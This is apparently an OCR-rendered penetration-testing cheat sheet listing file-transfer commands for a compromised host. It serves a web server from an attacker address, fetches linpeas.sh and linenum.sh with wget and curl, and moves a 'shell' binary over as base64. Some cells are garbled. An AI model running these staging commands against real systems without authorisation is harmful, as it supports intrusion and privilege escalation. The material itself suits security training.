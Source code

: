 ## Transferring Files

| **Command** | **Description** |
| --- | --- |
| `python3 -m http.server 8000` | Start a local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with scp (requires SSH access) |
| `base64 shell -w 0` | Convert a file to base64 |
| `echo f0VMR...SNIO...InmDwU \\\\\\\\\\\\\\\| base64 -d > shell` | Convert a file from base64 back to its orig |
| `md5sum shell` | Check the file's md5sum to ensure it converted correctly |
